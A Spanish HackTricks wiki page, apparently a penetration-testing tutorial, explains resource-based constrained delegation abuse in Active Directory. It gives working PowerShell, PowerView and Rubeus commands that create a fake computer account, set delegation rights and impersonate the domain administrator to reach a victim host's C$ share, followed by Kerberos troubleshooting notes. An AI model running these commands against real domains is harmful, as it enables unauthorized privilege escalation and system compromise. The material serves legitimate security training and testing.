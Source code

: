 # Delegación Constrain Basada en Recursos

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Conceptos Básicos de la Delegación Constrain Basada en Recursos

Esto es similar a la [Delegación Constrain](constrained-delegation.md) básica pero **en lugar** de dar permisos a un **objeto** para **suplantar a cualquier usuario contra un servicio**. La Delegación Constrain Basada en Recursos **establece** en **el objeto quién puede suplantar a cualquier usuario contra él**.

En este caso, el objeto restringido tendrá un atributo llamado _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ con el nombre del usuario que puede suplantar a cualquier otro usuario contra él.

Otra diferencia importante de esta Delegación Constrain a las otras delegaciones es que cualquier usuario con **permisos de escritura sobre una cuenta de máquina** (_GenericAll/GenericWrite/WriteDacl/WriteProperty/etc_) puede establecer el _**msDS-AllowedToActOnBehalfOfOtherIdentity**_ (En las otras formas de Delegación necesitabas privilegios de administrador de dominio).

### Nuevos Conceptos

En la Delegación Constrain se mencionó que el **`TrustedToAuthForDelegation`** flag dentro del valor _userAccountControl_ del usuario es necesario para realizar un **S4U2Self.** Pero eso no es completamente cierto.\
La realidad es que incluso sin ese valor, puedes realizar un **S4U2Self** contra cualquier usuario si eres un **servicio** (tienes un SPN) pero, si **tienes `TrustedToAuthForDelegation`** el TGS devuelto será **Forwardable** y si **no tienes** ese flag el TGS devuelto **no será** **Forwardable**.

Sin embargo, si el **TGS** utilizado en **S4U2Proxy** **NO es Forwardable** intentar abusar de una **delegación Constrain básica** **no funcionará**. Pero si estás tratando de explotar una **delegación Constrain basada en recursos, funcionará** (esto no es una vulnerabilidad, es una característica, aparentemente).

### Estructura del Ataque

> Si tienes **privilegios de escritura equivalentes** sobre una cuenta de **Computadora** puedes obtener **acceso privilegiado** en esa máquina.

Supongamos que el atacante ya tiene **privilegios de escritura equivalentes sobre la computadora víctima**.

1. El atacante **compromete** una cuenta que tiene un **SPN** o **crea uno** (“Servicio A”). Ten en cuenta que **cualquier** _Usuario Administrador_ sin ningún otro privilegio especial puede **crear** hasta 10 **objetos de Computadora (**_**MachineAccountQuota**_**)** y establecerles un **SPN**. Así que el atacante puede simplemente crear un objeto de Computadora y establecer un SPN.
2. El atacante **abusa de su privilegio de ESCRITURA** sobre la computadora víctima (ServicioB) para configurar **delegación basada en recursos para permitir que ServicioA suplantar a cualquier usuario** contra esa computadora víctima (ServicioB).
3. El atacante utiliza Rubeus para realizar un **ataque S4U completo** (S4U2Self y S4U2Proxy) desde Servicio A a Servicio B para un usuario **con acceso privilegiado a Servicio B**.
   1. S4U2Self (desde la cuenta SPN comprometida/creada): Pide un **TGS de Administrador para mí** (No Forwardable).
   2. S4U2Proxy: Usa el **TGS no Forwardable** del paso anterior para pedir un **TGS** de **Administrador** para el **host víctima**.
   3. Incluso si estás usando un TGS no Forwardable, como estás explotando la delegación basada en recursos, funcionará.
   4. El atacante puede **pasar el ticket** y **suplantar** al usuario para obtener **acceso al ServicioB víctima**.

Para verificar el _**MachineAccountQuota**_ del dominio puedes usar:
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## Ataque

### Creando un Objeto de Computadora

Puedes crear un objeto de computadora dentro del dominio usando [powermad](https://github.com/Kevin-Robertson/Powermad)**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### Configuración de R**esource-based Constrained Delegation**

**Usando el módulo de PowerShell de activedirectory**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**Usando powerview**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### Realizando un ataque S4U completo

Primero que nada, creamos el nuevo objeto de Computadora con la contraseña `123456`, así que necesitamos el hash de esa contraseña:
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
Esto imprimirá los hashes RC4 y AES para esa cuenta.\
Ahora, se puede realizar el ataque:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
Puedes generar más tickets pidiendo una vez usando el parámetro `/altservice` de Rubeus:
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
Tenga en cuenta que los usuarios tienen un atributo llamado "**No se puede delegar**". Si un usuario tiene este atributo en Verdadero, no podrá impersonarlo. Esta propiedad se puede ver dentro de BloodHound.
{% endhint %}

### Accediendo

La última línea de comando realizará el **ataque S4U completo e inyectará el TGS** desde el Administrador al host víctima en **memoria**.\
En este ejemplo, se solicitó un TGS para el servicio **CIFS** desde el Administrador, por lo que podrá acceder a **C$**:
```bash
ls \\victim.domain.local\C$
```
### Abusar de diferentes tickets de servicio

Aprende sobre los [**tickets de servicio disponibles aquí**](silver-ticket.md#available-services).

## Errores de Kerberos

* **`KDC_ERR_ETYPE_NOTSUPP`**: Esto significa que kerberos está configurado para no usar DES o RC4 y solo estás proporcionando el hash RC4. Proporciona a Rubeus al menos el hash AES256 (o simplemente proporciónale los hashes rc4, aes128 y aes256). Ejemplo: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: Esto significa que la hora de la computadora actual es diferente de la del DC y kerberos no está funcionando correctamente.
* **`preauth_failed`**: Esto significa que el nombre de usuario dado + hashes no están funcionando para iniciar sesión. Puede que hayas olvidado poner el "$" dentro del nombre de usuario al generar los hashes (`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`)
* **`KDC_ERR_BADOPTION`**: Esto puede significar:
* El usuario que intentas suplantar no puede acceder al servicio deseado (porque no puedes suplantarlo o porque no tiene suficientes privilegios)
* El servicio solicitado no existe (si pides un ticket para winrm pero winrm no está en ejecución)
* La computadora falsa creada ha perdido sus privilegios sobre el servidor vulnerable y necesitas devolvérselos.

## Referencias

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
